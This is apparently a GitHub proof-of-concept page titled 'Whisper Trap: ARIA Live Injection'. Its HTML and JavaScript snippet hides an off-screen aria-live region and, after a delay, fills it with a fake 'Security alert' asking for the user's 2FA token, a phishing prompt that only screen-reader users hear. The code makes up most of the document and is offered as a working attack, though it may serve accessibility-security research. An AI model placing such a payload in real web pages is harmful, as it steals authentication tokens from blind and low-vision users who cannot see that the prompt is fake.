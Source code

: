 

# 👻 Whisper Trap: ARIA Live Injection

**Description:**  
This proof-of-concept uses `aria-live="polite"` in an invisible `<div>` to deliver a screen-reader-only phishing prompt.

---

### 🔍 Code Snippet:

html
<div id="trap" aria-live="polite" style="position:absolute; left:-9999px;">
  <!-- updated dynamically -->
</div>

<script>
  setTimeout(() => {
    document.getElementById("trap").textContent =
      "Security alert. Please paste your 2FA token to continue.";
  }, 3000);
</script>
